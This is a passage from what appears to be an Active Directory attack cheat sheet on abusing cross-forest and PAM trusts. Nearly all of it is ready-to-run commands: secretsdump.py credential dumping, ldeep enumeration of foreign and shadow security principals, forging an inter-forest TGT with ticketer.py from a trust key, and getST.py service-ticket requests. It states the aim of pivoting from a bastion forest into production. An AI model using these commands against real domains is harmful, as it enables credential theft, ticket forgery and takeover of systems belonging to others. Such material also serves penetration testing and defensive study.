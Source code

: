 ```bash
secretsdump.py domain.local:Administrator:password 
```

#### Get the ForeignSecurityPrincipal

```bash
#These SIDs can access to the target domain
ldeep ldap -u user1 -p password -d domain.local -s <target_LDAP_server_IP> search '(objectclass=foreignSecurityPrincipal)' | jq '.[].objectSid'

#The found SID can be search in the current forest
ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> search '(objectSid=<object_SID>)'
```

#### Forge the inter-forest TGT

`ticketer.py` doesn't work really well with Inter-Realm TGT, it's preferable to use **Mimikatz** for this.

```bash
ticketer.py -domain domain.local -domain-sid <domain_SID> -extra-sid <target_domain_SID> -aesKey <aes_trust_key> -user-id <target_RID> <target_user>
export KRB5CCNAME=./ticket.ccache
```

#### Get a TGS

```bash
getST.py -k -no-pass -spn CIFS/dc.targetDomain.local -dc-ip <target_DC_IP> targetDomain.local/user
```

### Across Forest - PAM Trust

The goal is to compromise the **bastion** forest and pivot to the **production** forest to access to all the resources with a **Shadow Security Principal** mapped to a high priv group.

#### Check if the current forest is a bastion forest

Enumerate trust properties
* `ForestTransitive` must be **true**
* `SIDFilteringQuarantined` must be **false**

```bash
ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> trusts
```

Enumerate shadow security principals

```bash
ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> search '(distinguishedName=*Shadow Principal Configuration*)' |jq '.[].name, .[].member, .[]."msDS-ShadowPrincipalSid"'
```

#### Check if the current forest is managed by a bastion forest
